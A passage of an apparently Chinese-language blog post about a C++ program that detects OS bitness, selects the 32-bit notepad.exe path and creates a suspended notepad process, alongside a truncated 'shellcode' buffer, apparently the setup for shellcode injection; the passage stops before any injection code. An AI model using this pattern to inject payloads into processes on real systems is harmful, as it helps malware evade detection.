 --------

注：本文中提到的 `wcscpy()` API，应该替换为 `wcscpy_s()` API。出于安全考虑。

因为本文是在取消了安全检查的编译器上编译通过的，故犯此错误。


------


# 0x01 无法创建进程

事情是这样的：下面这段是我写的代码，大概功能就是判断操作系统位数，然后选择 32/64-bit 机器上32位 notepad.exe 程序的绝对路径，传入 `CreateProcessW` API，然后创建一个挂起状态的 notepad.exe 进程。


```
#include <stdio.h>
#include <windows.h>
#include <tchar.h>
#include <conio.h>

using namespace std;

/* length: 799 bytes */
/* 32-bit shellcode*/
unsigned char buf[] = "\xfc\xe8\32";


/* 安全的取得真实系统信息*/
VOID SafeGetNativeSystemInfo(__out LPSYSTEM_INFO lpSystemInfo)
{
    if (NULL == lpSystemInfo)    return;
    typedef VOID(WINAPI* LPFN_GetNativeSystemInfo)(LPSYSTEM_INFO lpSystemInfo);
    LPFN_GetNativeSystemInfo fnGetNativeSystemInfo = (LPFN_GetNativeSystemInfo)GetProcAddress(GetModuleHandle(_T("kernel32")), "GetNativeSystemInfo");;
    if (NULL != fnGetNativeSystemInfo)
    {
        fnGetNativeSystemInfo(lpSystemInfo);
    }
    else
    {
        GetSystemInfo(lpSystemInfo);
    }
}

/* 获取操作系统位数 */
int GetSystemBits()
{
    SYSTEM_INFO si = {0};
    SafeGetNativeSystemInfo(&si);
    if (si.wProcessorArchitecture == PROCESSOR_ARCHITECTURE_AMD64 ||
        si.wProcessorArchitecture == PROCESSOR_ARCHITECTURE_IA64)
    {
        return 64;
    }
    return 32;
}

void _tmain(int argc, _TCHAR* argv[])
{
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    BOOL result;
    wchar_t* CommandLine;
    ZeroMemory(&si, sizeof(si));
```